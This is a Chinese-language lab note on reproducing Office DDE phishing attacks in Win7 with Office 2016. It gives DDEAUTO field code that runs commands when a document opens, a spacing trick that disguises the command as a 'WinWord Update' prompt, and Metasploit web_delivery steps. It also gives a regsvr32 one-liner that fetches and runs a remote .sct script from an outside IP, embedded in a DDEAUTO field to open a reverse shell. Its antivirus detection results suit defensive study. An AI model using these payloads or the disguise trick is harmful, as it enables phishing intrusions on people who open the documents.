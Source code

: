 # DDE

> 环境: Win7 + Office 2016
>
> 可以在 [MSDN, 我告诉你 - 做一个安静的工具站 (itellyou.cn)](https://msdn.itellyou.cn/?ang=2h-cn) 找对应的镜像
>
> - Office 2016: `ed2k://|file|cn_office_professional_plus_2016_x86_x64_dvd_6969182.iso|2588266496|27EEA4FE4BB13CD0ECCDFC24167F9E01|/`
>
> - Win7:
>
>   [原版软件 (itellyou.cn)](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)
>
>   

> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)

DDE (Dynamic Data Exchange) 是一种用于在Windows应用程序之间交换数据的协议

攻击者可以利用 DDE 通过自定义字段插入到Word或Excel文档中，用于执行恶意代码

---

当用户打开包含DDE字段的文档时，Office应用程序会显示两个警告：

1. **第一个警告**：告知文档包含指向其他文件的链接。
2. **第二个警告**：告知将打开远程命令提示符。

如果用户忽略警告并允许操作，恶意命令将被执行，导致系统被攻击

---

例如: 创建一个文档 `DDE.docx`, 打开后使用 `Ctrl+F9(或者选中"插入"-"文件部件"-"域", 选中第一个 = (Formula) 然后右键切换域代码来编辑代码)` 

---

## 弹计算器

> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)

以打开计算器为例, 在域代码中输入如下内容

```JavaScript
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"
```

![image-20240606103628125](http://cdn.ayusummer233.top/DailyNotes/202406061623809.png)

保存后重新打开即可触发域代码执行

---

> 在 Office365 和 Office 2013 的 Word 上都没复现出来,都只有如下第一条警告, 然后就没有动静了
>
> ![image-20240517153248330](http://cdn.ayusummer233.top/DailyNotes/202405171532647.png)
>
> ---
>
> 后续在 Win7+Office2016 成功执行了 DDE
>
> ![image-20240606103518902](http://cdn.ayusummer233.top/DailyNotes/202406061623666.png)
>
> ![image-20240606103531060](http://cdn.ayusummer233.top/DailyNotes/202406061623998.png)
>
> ![image-20240606103541298](http://cdn.ayusummer233.top/DailyNotes/202406061623404.png)

也可以伪装一下

> [谨防钓鱼——OFFICE DDE复现_execl dde漏洞 复现-CSDN博客](https://blog.csdn.net/tempulcc/article/details/108471488)

```js
DDEAUTO C:\\Programs\\Office\\Updates\\WINWORD.exe/../../../../Windows\\System32\\cmd.exe "WinWord Update                                  /k calc.exe"
```

> PS: WinWord Update 和 `/k` 之间多加些空格, 否则效果不是很好:
>
> ![image-20240606181142069](http://cdn.ayusummer233.top/DailyNotes/202406061811150.png)
>
> ![image-20240606181228410](http://cdn.ayusummer233.top/DailyNotes/202406061812566.png)
>
> ![image-20240606181240958](http://cdn.ayusummer233.top/DailyNotes/202406061812069.png)

![image-20240606181847082](http://cdn.ayusummer233.top/DailyNotes/202406061818175.png)

![image-20240606181815913](http://cdn.ayusummer233.top/DailyNotes/202406061818994.png)

![image-20240606181828940](http://cdn.ayusummer233.top/DailyNotes/202406061818028.png)

---

## 反弹Shell

```bash
msf > use exploit/multi/script/web_delivery
msf > set target 3
msf > set payload windows/meterpreter/reverse_tcp_uuid
msf > set lhost [msf主机要监听的本地ip地址]
msf > set lport [msf主机要监听的本地端口]
msf exploit(multi/script/web_delivery) > exploit -j 
[*] Exploit running as background job 0.
```

- `target 3 -> Regsvr32`

  `regsvr32` 是 Windows 的一个命令行工具, 用于在 Windows 注册表中注册和注销 COM（Component Object Model）对象。这些对象通常是 DLL（动态链接库）或 OCX（ActiveX 控件）文件。注册这些文件允许它们被其他程序调用和使用。

- `windows/meterpreter/reverse_tcp_uuid`: 用于在目标 Windows 系统上建立一个反向连接的 Meterpreter 会话

  与 `windows/meterpreter/reverse_tcp` 类似，但它包含了 UUID（通用唯一标识符）的支持，这有助于在目标系统上运行多个实例时进行区分。这在一些复杂的攻击场景中非常有用，可以更好地管理和跟踪不同的会话。

- `exploit -j`: 启动一个漏洞利用模块并将其作为后台作业（job）运行

  `-j` 表示以作业的方式在后台运行，这意味着漏洞利用模块不会阻塞当前的控制台，允许用户在当前会话中执行其他命令或操作

![image-20240606105827774](http://cdn.ayusummer233.top/DailyNotes/202406061623460.png)

得到上线命令:

```cmd
regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll
```

- **/s**：静默模式，执行过程中不显示任何消息框

- **/n**：不用 `DllRegisterServer`，而是使用 `DllInstall` 方法

- **/u**：卸载模式，与 `/i` 参数一起使用时，会调用 `DllInstall` 方法以卸载而不是安装

- **/i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct**：指定传递给 `DllInstall` 方法的参数

  这里是一个远程 URL，指向一个 `.sct` 脚本文件，`regsvr32` 会下载并执行它

  ![image-20240606133303334](http://cdn.ayusummer233.top/DailyNotes/202406061623428.png)

  ![image-20240606133342964](http://cdn.ayusummer233.top/DailyNotes/202406061623821.png)

  具体来说是调 WScript 调 Powershell 执行编码了的命令; 解码后的命令为:

  ![image-20240606143717556](http://cdn.ayusummer233.top/DailyNotes/202406061623227.png)

  最终还是回到下载远程字符串命令并执行, 具体命令为:

  ![image-20240606144027647](http://cdn.ayusummer233.top/DailyNotes/202406061623408.png)

  具体就不往后解了, 还套了好几层, 等后续做个 Powershell 解混淆的专项研究, 收集和编写一些可用工具再看, 人力解混淆太耗时间了

- **scrobj.dll**：指定要使用的 DLL 文件，这里是 `scrobj.dll`, 全称为 "Script Object Model DLL", 是 Windows 脚本宿主（Windows Script Host，简称 WSH）的一部分, 提供了运行和管理脚本的功能

  WSH 支持多种脚本语言，如 VBScript 和 JScript，允许用户编写和执行脚本来自动化任务

---

得到的反弹代码是:

```cmd
regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll
```

写成 DDE 就是

```js
DDEAUTO c:\\windows\\system32\\cmd.exe "/k regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll"
```

![image-20240606152651583](http://cdn.ayusummer233.top/DailyNotes/202406061623511.png)

保存后重新打开:

![image-20240606152745928](http://cdn.ayusummer233.top/DailyNotes/202406061623626.png)

![image-20240606152808558](http://cdn.ayusummer233.top/DailyNotes/202406061624209.png)

![image-20240606152851391](http://cdn.ayusummer233.top/DailyNotes/202406061624930.png)

![image-20240606175736169](http://cdn.ayusummer233.top/DailyNotes/202406061758785.png)

火绒可检出:

![image-20240606160105265](http://cdn.ayusummer233.top/DailyNotes/202406061624984.png)

卡巴可检出:

![image-20240606160926908](http://cdn.ayusummer233.top/DailyNotes/202406061624353.png)

![image-20240606161518095](http://cdn.ayusummer233.top/DailyNotes/202406061624285.png)

---

## 相关链接

- [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)
- [钓鱼攻击：Office DDE 漏洞复现笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/32103256)
- [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)
- [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击_dde攻击-CSDN博客](https://blog.csdn.net/weixin_45575473/article/details/115894657)
- [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)
- [谨防钓鱼——OFFICE DDE复现-CSDN博客](https://blog.csdn.net/tempulcc/article/details/108471488)
- [钓鱼攻击：Office DDE 漏洞复现笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/32103256)
- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)
- [office-exploits/DDEAUTO at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/DDEAUTO)

---





